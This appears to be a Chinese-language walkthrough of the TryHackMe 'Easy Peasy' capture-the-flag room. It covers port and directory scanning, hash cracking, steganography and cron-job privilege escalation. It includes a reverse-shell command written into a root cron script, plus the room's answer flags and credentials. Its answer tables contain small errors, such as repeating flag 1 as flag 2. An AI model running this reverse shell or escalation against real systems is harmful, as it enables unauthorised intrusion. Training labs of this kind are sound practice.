# Challenge 名稱 : [Easy Peasy](https://tryhackme.com/room/easypeasyctf)


## 題目類型

- Port 掃描 (nmap)
- Web 掃描（Gobuster）
- hash 破解（john、CyberChef）
- 資料隱寫（圖片、Binary）
- Linux 權限提升（cronjob）

---

## 題目總攬

| 題號 | 題目內容                                               |
|------|--------------------------------------------------------|
| 1    | How many ports are open?                               |
| 2    | What is the version of nginx?                          |
| 3    | What is running on the highest port?                   |
| 4    | Using GoBuster, find flag 1                            |
| 5    | Further enumerate the machine, what is flag 2?         |
| 6    | Crack the hash with easypeasy.txt, What is flag 3?     |
| 7    | What is the hidden directory?                          |
| 8    | Crack the hash using provided wordlist (password)?     |
| 9    | What is the password to login to the machine via SSH?  |
| 10   | What is the user flag?                                 |
| 11   | What is the root flag?                                 |


# 解題過程

## 📘 題目 1 - 3

#### 使用指令
```bash
# -sV 進行服務版本偵測，-p- 掃描全部的 port，確保不漏掃
nmap -sV -p- $IP
```
#### 掃描結果

- 發現開啟的 Port：22 (SSH)、80 (nginx)、65524 (Apache)
- nginx 版本：1.16.1
- 最高 Port 上跑的是 Apache

截圖如下： 


#### 最終答案
| 題號 | 題目內容                                               | 答案                             |
|------|--------------------------------------------------------|----------------------------------|
| 1    | How many ports are open?                               | 3                                |
| 2    | What is the version of nginx?                          | 1.16.1                           |
| 3    | What is running on the highest port?                   | Apache                           |

## 📘 題目 4

#### 使用指令
```bash
# 透過 gobuster 掃描 port 80 下的目錄
gobuster dir -u http://$IP:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt
```

#### 掃描結果

- 找到 hidden/
- 找到 robots.txt

截圖如下： 


#### 資訊分析
- 訪問 `http://$IP/robots.txt`，其中沒有可用資訊
- 訪問 `http://$IP/hidden`，其中沒有可用資訊，故決定掃描該目錄

#### 使用指令
```bash
# 透過 gobuster 掃描 /hidden
gobuster dir -u http://$IP:80/hidden -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt
```

#### 掃描結果

- 找到 whatever/

截圖如下：


#### 資訊分析
- 訪問 `http://$IP/hidden/whatever`，在原始代碼中找到 ```ZmxhZ3tmMXJzN19mbDRnfQ==1```

截圖如下： 


- 對 ```ZmxhZ3tmMXJzN19mbDRnfQ==1``` 進行 base64 decode 得到 ```flag{f1rs7_fl4g}```

#### 最終答案
| 題號 | 題目內容                                               | 答案                             |
|------|--------------------------------------------------------|----------------------------------|
| 4    | Using GoBuster, find flag 1                               | flag{f1rs7_fl4g}                                |

### 📘 題目 5

#### 使用指令
```bash
# 透過 gobuster 掃描 port 65524
gobuster dir -u http://$IP:65524 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt
```

截圖如下： 


#### 資訊分析

- 發現 robots.txt
- 發現 server-status 403 代表需要權限
- 訪問 http://IP:65524/robots.txt，得到 User-Agent ```a18672860d0510e5ab6699730763b250```

截圖如下：



- 透過 User_Agent 訪問 http://$IP:65524、http://$IP:65524/robots.txt、http://$IP:65524/server-status 都沒找到有用資訊 (跟沒用 User-Agent 一樣)
- 查詢後得知 ```a18672860d0510e5ab6699730763b250``` 經過 hash 加密
- 透過 [CyberChef](https://gchq.github.io/CyberChef/) 分析後猜測可能為 MD5、MD4、MD2...等等

截圖如下：



- 透過 [MD5 Center](https://md5.gromweb.com/) 解出 flag 為 ```flag{1m_s3c0nd_fl4g}```

截圖如下：



#### 最終答案
| 題號 | 題目內容                                               | 答案                             |
|------|--------------------------------------------------------|----------------------------------|
| 5    | Further enumerate the machine, what is flag 2?                               | flag{f1rs7_fl4g}                                |

### 📘 題目 6

#### 資訊分析
- 訪問 `http://$IP:65524`，在網頁中找到 ``` Fl4g 3 : flag{9fdafbd64c47471a8f54cd3fc64cd312}```

截圖如下：


#### 最終答案
| 題號 | 題目內容                                               | 答案                             |
|------|--------------------------------------------------------|----------------------------------|
| 6    | Crack the hash with easypeasy.txt, What is flag 3?                               | flag{9fdafbd64c47471a8f54cd3fc64cd312}                                |


### 📘 題目 7

#### 資訊分析
- 訪問 `http://$IP:65524`，在網頁中找到 ```<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>```

截圖如下：



- 透過提示可以知道 ```ObsJmP173N2X6dOrAgEAL0Vu``` 是透過 base 來編碼的故透過 [CyberChef](https://gchq.github.io/CyberChef/) 解碼，最後找到是透過 base62 編碼，最終得到 ```/n0th1ng3ls3m4tt3r```

#### 最終答案
| 題號 | 題目內容                                               | 答案                             |
|------|--------------------------------------------------------|----------------------------------|
| 7    |What is the hidden directory?                               | /n0th1ng3ls3m4tt3r                              |


### 📘 題目 8


#### 資訊分析

- 訪問 `http://$IP:65524/n0th1ng3ls3m4tt3r`，在網頁中找到 ```940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81```

#### 使用指令
```bash
# 根據題目提供的 easypeasy.txt 進行 hash 破解
john --wordlist=easypeasy.txt hash.txt
# 查看破解密碼
john --show hash.txt
```
截圖如下：



#### 最終答案
| 題號 | 題目內容                                               | 答案                             |
|------|--------------------------------------------------------|----------------------------------|
| 8    |Crack the hash using provided wordlist (password)?                               | mypasswordforthatjob 

### 📘 題目 9

#### 資訊分析
- 訪問 `http://$IP:65524/n0th1ng3ls3m4tt3r`，在網頁中看到照片 + 密碼，大概率是  Steganography（隱寫術)

截圖如下：



#### 使用指令
```bash
# 使用 steghide 從圖片 Untitled.jpeg 中提取隱藏的資料
steghide --extract -sf Untitled.jpeg
```

截圖如下：



#### 資訊分析
- 得到使用者 : ```boring```
- 得到密碼 : ```01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001```
- 密碼轉成 ASCII 為 ```iconvertedmypasswordtobinary```

#### 最終答案
| 題號 | 題目內容                                               | 答案                             |
|------|--------------------------------------------------------|----------------------------------|
| 9    |What is the password to login to the machine via SSH?                               | iconvertedmypasswordtobinary


### 📘 題目 10

#### 使用指令
```bash
# 有了使用者與密碼通過 ssh 登入
ssh boring@$IP -p 6498
```
截圖如下：



#### 資訊分析
- 查看 user.txt 得到
截圖如下：



- 得到提示要「旋轉」（rotated）後得到 flag
- 透過 python 的 codecs 進行簡單的選轉
```bash
import codecs

flag = "synt{a0jvgf33zfa0ez4y}"
decoded = codecs.decode(flag, 'rot_13')
print(decoded)
```
可直接
```bash
python3 -c "import codecs; print(codecs.decode('synt{a0jvgf33zfa0ez4y}', 'rot_13'))"
```

截圖如下：



- 得到最終 flag{n0wits33msn0rm4l}

#### 最終答案
| 題號 | 題目內容                                               | 答案                             |
|------|--------------------------------------------------------|----------------------------------|
| 9    | What is the user flag?                               | flag{n0wits33msn0rm4l}

### 📘 題目 11

#### 使用指令
```bash
# 透過以下指令找常見的權限提升漏洞
# sudo 與 SUDI 沒找到常見漏洞
sudo -l 
find / -type f -perm -04000 -ls 2>/dev/null
cat /etc/crontab
```
- sudo 與 SUDI 沒找到常見漏洞
- /etc/crontab 中找到 .mysecretcronjob.sh 每分鐘執行一次

截圖如下：




#### 使用指令
```bash
# 檢查是否有修改權限
ls -l /var/www/.mysecretcronjob.sh
```

截圖如下：



- 可以進行修改

#### 使用指令

```bash
# 在本機上用 netcat 監聽 20 準備進行反向注入
nc -lvnp 20
# 將執行 bash 寫入 .mysecretcronjob.sh
echo "bash -i >& /dev/tcp/$YOUR_IP/20 0>&1" > /var/www/.mysecretcronjob.sh
# 給予檔案執行權
chmod +x /var/www/.mysecretcronjob.sh
```


截圖如下：



- 成功反向匯入

#### 資訊分析
- 找到 .root.txt 最後查到 flag{63a9f0ea7bb98050796b649e85481845}

截圖如下：



#### 最終答案
| 題號 | 題目內容                                               | 答案                             |
|------|--------------------------------------------------------|----------------------------------|
| 11    | What is the root flag?                               | flag{63a9f0ea7bb98050796b649e85481845}